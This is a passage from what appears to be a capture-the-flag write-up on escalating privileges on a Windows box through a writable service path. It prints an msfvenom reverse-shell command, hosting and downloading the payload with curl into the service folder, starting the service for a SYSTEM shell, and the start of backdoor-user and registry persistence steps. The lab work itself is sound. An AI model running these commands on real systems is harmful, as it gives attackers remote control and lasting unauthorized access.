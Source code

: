 ```
                                    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

I now created a second shell that I could upload it and use it for a listener for the root shell.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.78.229 LPORT=6666 -f exe -o shell2.exe
```
With starting a web server:

```sh
sudo python3 -m http.server 80
```

I downloaded the second shell to the location we have write permissions to:
```powershell
curl -o 'C:\Program Files (x86)\Mobile Mouse\Mouse.exe' http://10.14.78.229/shell2.exe
```

Now the last step to get the reverse listener back is to start the scheduled task.

```powershell
sc.exe start 'Mobile Mouse Service'
```

![](/assets/blog/Mouse-Trap/whoami.png)

Let's move to the administrators directory and get the flag:
```powershell
cd C:\Users\Administrator
cd Desktop
type root.txt
```

### Persistance

The last part of the challenge is establishing persistance.

> - Use the `HKEY_CURRENT_USER` registry hive
> - Use the `SYSTEM user` when creating the run key persistence
> - Specify the registry key name (`shell`)
> - Use the following path for the payload (`C:\Windows\Temp\shell.exe`)
> - Specify the name of the backdoor user (`terry`)

Let's first create a user `terry`.
